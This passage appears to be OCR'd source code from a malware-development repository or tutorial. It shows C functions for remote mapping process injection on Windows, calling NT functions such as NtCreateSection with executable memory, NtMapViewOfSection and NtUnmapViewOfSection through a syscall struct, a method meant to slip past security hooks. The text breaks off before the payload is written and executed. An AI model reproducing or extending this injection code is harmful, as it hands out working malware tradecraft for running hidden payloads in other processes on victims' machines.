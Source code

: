 ```
	// Unmpaing the local view - only when the payload is done executing
	if ((STATUS = St.pNtUnmapViewOfSection((HANDLE)-1, pAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	if ((STATUS = St.pNtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}

```
### **RemoteMappingInjectionViaSyscalls**


```
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection			= NULL;
	HANDLE				hThread				= NULL;
	PVOID				pLocalAddress		= NULL,
					    pRemoteAddress		= NULL;
	NTSTATUS			STATUS				= NULL;
	SIZE_T				sViewSize			= NULL;
	LARGE_INTEGER		MaximumSize 		= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};
	Syscall				St				    = { 0 };


	if (!InitializeSyscallStruct(&St)) {
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Allocating local map view

	if ((STATUS = St.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewUnmap, NULL, PAGE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
```